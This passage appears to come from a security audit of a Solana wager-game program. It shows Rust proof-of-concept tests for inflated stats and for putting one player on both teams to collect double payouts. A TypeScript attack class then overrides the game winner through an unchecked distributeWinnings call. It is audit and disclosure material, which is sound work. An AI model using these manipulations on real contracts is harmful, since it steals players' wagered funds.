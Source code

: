 ```rust
            game_session.team_a.players[player_index],
            0
        ).unwrap();

        // Massive earnings from impossible stats
        assert!(earnings > 130_000_000); // 131M+ tokens from impossible performance
    }

    #[test]
    fn test_team_composition_manipulation() {
        let mut game_session = create_test_game_session();

        // Add same player to both teams (duplicate)
        let attacker = Pubkey::new_unique();

        game_session.team_a.players[0] = attacker;
        game_session.team_b.players[0] = attacker;

        // Player is now on both teams simultaneously
        assert!(game_session.player_in_team(attacker, 0));
        assert!(game_session.player_in_team(attacker, 1));

        // Can record kills for both teams
        game_session.team_a.player_kills[0] = 50;
        game_session.team_b.player_kills[0] = 50;

        // Player gets double earnings from being on both teams
        let earnings_a = game_session.calculate_pay2spawn_earnings(attacker, 0).unwrap();
        let earnings_b = game_session.calculate_pay2spawn_earnings(attacker, 1).unwrap();

        let total_earnings = earnings_a + earnings_b;
        assert!(total_earnings > 100_000); // Double earnings from team duplication
    }
}
```

### Real-World State Manipulation Attack
```typescript
class GameStateManipulator {
    async manipulateGameOutcome(sessionId: string): Promise<void> {
        // 1. Monitor game completion
        await this.waitForGameCompletion(sessionId);

        // 2. Determine actual winner through game analysis
        const gameSession = await this.getGameSession(sessionId);
        const actualWinner = this.calculateActualWinner(gameSession);

        console.log(`Actual winner: Team ${actualWinner}`);

        // 3. Override winner to favor attacker
        const manipulatedWinner = this.getAttackerTeam();

        if (actualWinner !== manipulatedWinner) {
            await this.overrideWinner(sessionId, manipulatedWinner);
        }
    }

    async overrideWinner(sessionId: string, fakeWinner: number): Promise<void> {
        // 4. Call distribute_winnings with fake winner
        await this.wagerProgram.methods
            .distributeWinnings(
                sessionId,
                fakeWinner // ❌ User-controlled winner
```